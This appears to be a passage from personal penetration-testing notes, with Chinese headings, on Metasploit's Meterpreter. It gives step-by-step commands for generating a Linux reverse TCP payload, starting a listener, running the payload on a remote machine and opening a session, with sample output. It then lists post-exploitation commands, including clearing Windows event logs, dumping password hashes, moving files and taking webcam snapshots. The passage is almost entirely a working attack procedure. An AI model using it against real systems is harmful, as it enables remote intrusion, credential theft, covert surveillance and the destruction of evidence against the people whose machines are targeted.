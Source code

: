 ### Meterpreter

#### 创建简易Reverse Shell

```shell
use payload/linux/x64/meterpreter_reverse_tcp # notice underscore _
setg lhost 192.168.20.133
setg lport 4448
generate -f elf -o shell
chmod 777 shell
use exploit/multi/handler
set payload payload/linux/x64/meterpreter_reverse_tcp # if you change from payload module, exploit might automatically use it
exploit

# remote machine execute ./shell
./shell

# local machine:
[*] Started reverse TCP handler on 192.168.20.133:4448 
[*] Meterpreter session 11 opened (192.168.20.133:4448 -> 192.168.20.133:46300) at 2022-10-06 21:13:06 +0800

(Meterpreter 11)(/home/frnks) >
```

#### 命令

```shell
help
bg/cat/cd/pwd/ls/ps
clearev # clear logs on Windows system
download <path> # Windows path uses \\
edit # edit file via vim
execute
getuid
run post/<arch>/gather/hashdump
idletime
ipconfig
lpwd/lcd # local machine pwd/cd
resource # auto-execute commands in a file
search -f <pattern>
shell
upload <file> <remote_path>
webcam_list
webcam_snap
```


## 情报搜集


### 主动信息搜集
